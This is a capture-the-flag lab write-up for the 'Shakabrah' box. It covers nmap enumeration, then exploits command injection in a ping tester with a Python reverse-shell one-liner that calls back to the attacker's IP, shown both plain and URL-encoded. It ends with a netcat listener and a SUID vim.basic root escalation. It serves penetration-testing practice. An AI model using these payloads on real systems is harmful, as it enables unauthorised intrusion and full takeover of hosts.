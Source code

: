 # PG Play - Shakabrah

#### Ip: 192.168.241.86
#### Name: Shakabrah
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -p-  --min-rate 10000 192.168.241.86
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:51 CDT
Nmap scan report for 192.168.241.86
Host is up (0.066s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 14.38 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ sudo nmap -sC -sV 192.168.241.86 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-18 14:52 CDT
Nmap scan report for 192.168.241.86
Host is up (0.067s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33b96d350bc5c45a86e0261095487782 (RSA)
|   256 a80fa7738302c1978c25bafea5115f74 (ECDSA)
|_  256 fce99ffef9e04d2d76eecadaafc3399e (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.92 seconds
```

Navigating to the site we find a "Connection Tester" that will ping supplied IP adresses. 

site.png

And we can confirm we can ping localhost:

local.png

Playing around with this field a bit, I disvocered we can execute commands after add a `;` character:

code.png

Lets try to exploit this to get a reverse shell:

### Exploitation

Heading over to https://www.revshells.com/ I can grab the following reverse shell one-liner and conveniently URL encoded it there as well:

```text
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.197",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After URL encoding it and setting up a listener I can navigate to:

192.168.241.86/?host=127.0.0.1;python3%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.197%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22sh%22%29%27

Which gets me a reverse shell back!

```text
┌──(ryan㉿kali)-[~/PG/Shakabrah]
└─$ nc -lnvp 80 
listening on [any] 80 ...
connect to [192.168.45.197] from (UNKNOWN) [192.168.241.86] 50098
$ whoami
whoami
www-data
$ hostname
hostname
shakabrah
$ python3 -c 'import pty;pty.spawn("/bin/bash")'

python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@shakabrah:/var/www/html$ 
```

From here I can grab the local.txt flag in dylan's `/home` directory:

user_flag.png

### Privilege Escalation

Lets go ahead and transfer over a copy of LinPEAS to help enumerate:

Interesting, LinPEAS finds asomething with the SUID bit set called vim.basic. I'm wondering if this is just vim?

We can head over to https://gtfobins.github.io/gtfobins/vim/ and find a couple of commands to try:

suid.png

We'll need to make sure we use `vim.basic` and `:py3` to account for Python3 being in use on the box.

Lets run:

```text
./vim.basic -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

Which will give us a root shell and we can grab the final flag:

root_flag.png

Thanks for following along!

-Ryan

-------------------------------------------------

